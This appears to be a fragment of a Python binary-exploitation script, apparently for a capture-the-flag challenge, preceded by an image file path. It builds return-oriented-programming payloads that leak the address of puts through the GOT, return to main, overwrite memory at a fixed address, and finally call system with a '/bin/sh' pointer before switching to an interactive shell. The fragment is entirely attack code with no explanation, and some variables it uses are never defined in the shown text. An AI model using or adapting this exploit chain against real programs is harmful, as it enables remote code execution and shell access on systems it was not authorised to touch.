 ```python
pl += "\x00"*3 + "\x60" + "\x00"*3
pl += p64(pop_rdi_ret)
pl += p64(puts_got)
pl += p64(puts_plt)
pl += p64(ret) 
pl += p64(main) 
s.send(pl)
s.send(pl)

pl = "1" + p64(0x00627468627468)
pl += "\x00"*3 + "\x60" + "\x00"*3
pl += p64(0)
pl += p64(0)
pl += p64(0)
pl += p64(0) 
pl += p64(0x6020a0) 
s.send(pl)

pl = "1" + p64(0x00627468627468)
pl += "\x00"*3 + "\x90" + "\x00"*3
pl += p64(0)
pl += p64(0)
pl += p64(0)
pl += p64(0) 
pl += p64(0x6020a0)
s.send(pl)

pl = "1" + p64(0x00627468627468)
pl += "\x00"*3 + "\x90" + "\x00"*3
pl += p64(pop_rdi_ret)
pl += p64(binsh)
pl += p64(system) 
pl += p64(0)
pl += p64(0) #read_plt
s.send(pl)


pl = "0" + p64(0x00627468627468) + "abcdef1234567"
s.sendline(pl)



s.interactive()
```
